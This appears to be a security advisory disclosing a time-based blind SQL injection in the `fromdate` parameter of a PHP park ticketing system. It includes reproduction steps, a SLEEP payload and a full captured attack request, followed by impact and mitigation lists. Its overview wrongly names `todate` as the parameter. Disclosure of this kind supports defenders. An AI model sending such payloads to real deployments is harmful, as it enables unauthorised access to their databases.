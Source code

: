 # SQL Injection Vulnerability in Park Ticketing Management System (foreigner-bwdates-reports-details.php--fromdate)

## Overview
A SQL Injection vulnerability was discovered in the `foreigner-bwdates-reports-details.php` file of the **Park Ticketing Management System Project in PHP v2.0** by PHPGurukul. This vulnerability allows remote attackers to execute arbitrary SQL code via the `todate` parameter in a POST request.

### Affected Product Details

| **Field**               | **Details**                                                                 |
|-------------------------|----------------------------------------------------------------------------|
| Product Name            | Park Ticketing Management System Using PHP and MySQL                       |
| Vendor                  | PHPGurukul                                                                 |
| Affected Code File      | `foreigner-bwdates-reports-details.php`                                       |
| Affected Parameter      | `fromdate`                                                                   |
| Method                  | POST                                                                       |
| Type                    | Time-based blind SQL Injection                                             |
| Version                 | v2.0                                                                       |
| Official Website        | https://phpgurukul.com/park-ticketing-management-system-using-php-and-mysql/

---

## Steps to Reproduce
1. **Log in to the Admin Panel**  
   - Access the admin login page and enter valid credentials.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704163201.png)

2. **Navigate to the Report Section**  
   - Go to the "Report" section and select "Foreigner People Report."  
   - Choose any date range in the `fromdate` and `todate` input fields.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104250.png)
3. **Intercept the Request**  
   - Intercept the data packet and find the problematic parameter fromdate
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104317.png)

4. **Confirm the Vulnerability**  
   - Forward the modified request and observe a 10-second delay in the response, confirming the time-based SQL injection.

   - Inject the following payload into the `fromdate` parameter:  
     ```sql
     ' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp
     ```
   - ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104504.png)
   
     attack payload    
```sql
POST /Park-Ticketing-Management-System-Project/ptms/foreigner-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://127.0.0.1
sec-ch-ua-platform: "Windows"
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://127.0.0.1/Park-Ticketing-Management-System-Project/ptms/between-dates-foreignerreports.php
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Cookie: PHPSESSID=fn23r331lhk5gbe4nbqrsg821r
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Dest: document
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Content-Length: 45

fromdate=2025-07-04' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUx&todate=2025-07-17&submit=
```
    


## Impact
- **Data Theft**: Unauthorized access to sensitive database data.  
- **Data Manipulation**: Alteration or deletion of critical data.  
- **Reconnaissance**: Enumeration of database structures for further attacks.  
- **Financial Loss**: Potential service disruption leading to monetary losses.  
- **Reputation Damage**: Loss of user trust due to breaches or downtime.  

---

## Recommended Mitigations
1. **Input Validation**: Sanitize and validate all user inputs.  
2. **Prepared Statements**: Use parameterized queries to prevent SQL injection.  
3. **Output Encoding**: Encode data before rendering it in the application.  
4. **Content Security Policy (CSP)**: Implement CSP to mitigate HTML injection risks.  


